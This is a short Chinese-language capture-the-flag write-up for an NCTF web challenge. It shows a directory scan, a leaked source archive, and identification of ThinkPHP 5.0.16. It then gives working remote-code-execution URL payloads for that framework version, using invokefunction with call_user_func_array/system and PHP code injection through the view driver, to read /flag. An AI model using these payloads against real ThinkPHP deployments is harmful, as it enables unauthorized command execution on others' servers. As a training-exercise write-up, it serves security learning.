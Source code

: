 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![web-1.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.2.png)


发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,


尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.5.png)


查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.6.png)

![web-1.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.7.png)
